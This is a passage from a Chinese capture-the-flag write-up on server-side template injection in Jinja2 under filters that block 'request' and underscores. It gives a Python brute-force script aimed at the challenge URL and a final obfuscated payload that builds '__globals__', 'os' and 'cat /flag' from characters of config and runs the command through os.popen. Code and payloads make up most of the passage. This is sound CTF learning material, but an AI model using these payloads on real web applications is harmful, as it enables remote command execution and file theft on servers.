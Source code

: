 request被过滤了，这时候就要自己拼接字符啦，因为下划线被过滤了，`__str__()`用不了，改用过滤器string来输出字符串，然后用过滤器list将其分割输出：`{% print config|string|list %}`
然后利用`pop()`搭配`lower()`来遍历输出小写字符：`{% print (config|string|list).pop().lower() %}`

那就要构造：

```jinja2
{% print (lipsum|attr(__globals__)).get(os).popen(cat /flag).read() %}
```

写脚本跑一下：

```python
import requests

def mdpl(payload):
    url = "http://fb671a45-884e-4552-9390-97a85a0a63f2.challenge.ctf.show:8080/"
    result = ""
    for j in payload:
        for i in range(1000):
            params = {
                'name': "{{% print (config|string|list).pop({}).lower() %}}".format(i)
            }
            r = requests.get(url, params=params)
            # print(r.text.find('<h3>'))
            num = r.text.find('<h3>')+4
            stra = r.text[num]
            if stra == j:
                # print("(config|string|list).pop({}).lower()  ==  {}".format(i, j))
                result += "(config|string|list).pop({}).lower()~".format(i)
                print(result)
                break
    return result


payload1 = "__globals__"
payload2 = "os"
payload3 = "cat /flag"
end = "{{% print (lipsum|attr({})).get({}).popen({}).read() %}}".format(mdpl(payload1).strip('~'), mdpl(payload2).strip('~'), mdpl(payload3).strip('~'))
print(end)


```

payload:

```jinja2
{% print (lipsum|attr((config|string|list).pop(74).lower()~(config|string|list).pop(74).lower()~(config|string|list).pop(6).lower()~(config|string|list).pop(41).lower()~(config|string|list).pop(2).lower()~(config|string|list).pop(33).lower()~(config|string|list).pop(40).lower()~(config|string|list).pop(41).lower()~(config|string|list).pop(42).lower()~(config|string|list).pop(74).lower()~(config|string|list).pop(74).lower())).get((config|string|list).pop(2).lower()~(config|string|list).pop(42).lower()).popen((config|string|list).pop(1).lower()~(config|string|list).pop(40).lower()~(config|string|list).pop(23).lower()~(config|string|list).pop(7).lower()~(config|string|list).pop(279).lower()~(config|string|list).pop(4).lower()~(config|string|list).pop(41).lower()~(config|string|list).pop(40).lower()~(config|string|list).pop(6).lower()).read() %}
```

